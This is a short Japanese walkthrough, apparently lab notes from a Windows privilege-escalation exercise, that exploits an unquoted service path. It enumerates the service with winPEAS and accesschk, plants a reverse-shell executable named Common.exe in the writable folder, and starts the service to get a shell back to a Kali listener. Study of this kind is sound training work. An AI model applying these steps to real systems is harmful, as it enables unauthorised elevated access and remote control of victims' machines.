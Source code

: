 # Privilege Escalation
1. winPEASを実行し、サービスの設定ミスを確認します。
```
> .\winPEASany.exe quiet servicesinfo
```
2. "unquotedsvc"サービスには、引用されていないパスがあり、そのパスにはスペースが含まれ ていることに注意してください。   
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
3. scで確認します。
```
> sc qc unquotedsvc
```
4. accesschk.exeで書き込み権限を確認する。
```
> .\accesschk.exe /accepteula -ucqv user unquotedsvc
.\accesschk.exe /accepteula -ucqv user unquotedsvc
R  unquotedsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL
```
```
> .\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq c:\
c:\
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
  RW NT AUTHORITY\SYSTEM
```
```
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```
```
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

```
5. リバースシェルの実行ファイルをコピーし、適当な名前に変更します。
```
> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
6. Kali上でリスナーを起動し、サービスを起動してexploitを発動させます。
```
> net start unquotedsvc
```
